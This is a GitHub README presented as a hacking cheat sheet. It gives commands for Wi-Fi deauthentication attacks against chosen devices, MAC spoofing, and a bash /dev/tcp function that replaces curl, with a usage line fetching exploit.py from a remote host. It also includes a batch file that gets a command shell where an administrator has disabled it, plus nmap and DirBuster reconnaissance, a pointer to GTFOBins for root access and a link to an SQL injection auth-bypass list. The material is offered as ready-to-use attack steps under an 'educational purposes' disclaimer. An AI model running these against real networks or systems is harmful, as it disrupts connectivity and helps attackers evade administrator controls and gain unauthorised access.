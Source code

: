 # Useful Cheatsheet

> #### Disclaimer
> 
> For Academic and Educational Purposes Only

I am actively developing a comprehensive cheat sheet, regularly adding content that encompasses intricate information, helpful techniques, and fundamental utilities, along with their practical usage, all conveniently consolidated in a single resource

## Table of Contents

- [Networking stuff](#networking-stuff)
  - [Show my wireless card name](#show-my-wireless-card-name)
  - [Put wireless card on monitor mode](#put-wireless-card-on-monitor-mode)
  - [Show routers in range](#show-routers-in-range)
  - [Show devices connected to a specific router](#show-devices-connected-to-a-specific-router)
  - [Create deauth attack](#create-deauth-attack)
  - [Change MAC address](#change-mac-address)
  - [Host DarkWeb, Secret chat](#host-darkweb-secret-chat)
- [System compromising](#system-compromising)
  - [curl or wget without the function itself](#curl-or-wget-without-the-function-itself)
  - [Get cmd in Windows if not enabled by administrator](#get-cmd-in-windows-if-not-enabled-by-administrator)
- [Web Penetration Testing](#web-penetration-testing)
  - [Basic Steps to Rule the World](#basic-steps-to-rule-the-world)
  - [Scanning the machine](#scanning-the-machine)
  - [Using DirBuster](#using-dirbuster)
  - [Validating a form and a button if it is disabled](#validating-a-form-and-a-button-if-it-is-disabled)
  - [List of vulnerable Unix libraries, to for example get root access](#list-of-vulnerable-unix-libraries-to-for-example-get-root-access)
  - [SQL injection auth bypass](#sql-injection-auth-bypass)


## Networking stuff

### Show my wireless card name
```
iwconfig
```

### Put wireless card on monitor mode
```
airmon-ng start {card name}
```

### Show routers in range
```
airdump-ng {card name}
```
- PWR column is showing signal strenght
- Note also the channel and BSSID of the router

### Show devices connected to a specific router
```
airodump-ng {card name} --bssid {router BSSID} --channel {router channel}
```
- router is also included there

### Create deauth attack
```
aireplay-ng --deauth 0 -c {devices MAC} -a {routers MAC ADDRESS} {card name}
```
- possibility to include more routers and more MAC adresses
- 0 means infinite number of deauth messages
- TIP of the day: put for example 50 insted of 0 and replay it with 1 second delay

### Change MAC address
```
sudo ifconfig {interface} down
sudo ifconfig {interface} hw ether {MAC address}
sudo ifconfig {interface} up
```

### Host DarkWeb, Secret chat
- use onionshare

## System compromising

### curl or wget without the function itself
```bash
function __curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80
 
  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}
 
 
# USAGE: __curl http://www.example.com/exploit.py > sploitz.py
```
### Get cmd in Windows if not enabled by administrator
- Create a file `something.bat` with following content
```
@echo off
:a
Set /p comm=cmd~
%comm%
Goto a
```

## Web Penetration Testing

### Basic Steps to Rule the World

1. Get basic information about the targer, use it as it is
2. Scan the machine, how many ports are open?
3. Find all directiories - DirBuster
4. To be done

### Scanning the machine

```
nmap -sV -O {IP ADDRESS}
```

- This provides information about services version, OS and which ports are in use, all in once

### Using DirBuster

- Used for detecting all folders, even the hidden ones

```
dirbuster dir -u {IP ADDRESS} -l {WORDLIST PATH}
```


### Validating a form and a button if it is disabled

- Console will fix this problem

```
var inputField = document.querySelector('input[type="..."][name="..."]');
if (inputField) {
  inputField.removeAttribute("disabled");
}
```

- Run this for both, button and input field and it will be enabled


### List of vulnerable Unix libraries, to for example get root access

- https://gtfobins.github.io/

### SQL injection auth bypass 

 Check this [list](./files/web_pentesting/sqli_auth_bypass_list.txt).
